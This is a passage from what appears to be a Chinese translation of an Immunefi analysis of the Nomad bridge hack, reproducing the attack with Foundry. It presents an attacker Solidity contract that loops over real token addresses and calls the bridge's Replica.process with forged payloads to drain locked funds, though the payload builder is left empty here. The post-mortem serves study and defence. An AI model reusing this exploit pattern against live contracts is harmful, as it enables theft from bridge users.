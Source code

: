 余下的篇幅，我们将使用Foundry分步完成攻击复现.

## 攻击（The Attack）

*[初始的攻击合约](https://gist.githubusercontent.com/gists-immunefi/4305df38623ddcaa11812a9c186c73ac/raw/e960b16512343fb3d6f3d8821486e7fb1452952c/Nomad%20Hack%20Analysis%203.sol)*
```solidity
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
 
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = IERC20(token).balanceOf(ERC20_BRIDGE);
 
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory) {}
}
```

攻击合约的入口是`attack`函数， 它包含一个简单的循环来循环查询代币桥地址（ERC20_BRIDGE）的不同代币余额。`ERC20_BRIDGE`指代Nomad ERC20 桥合约，也就是所有锁定资产的存放地址。
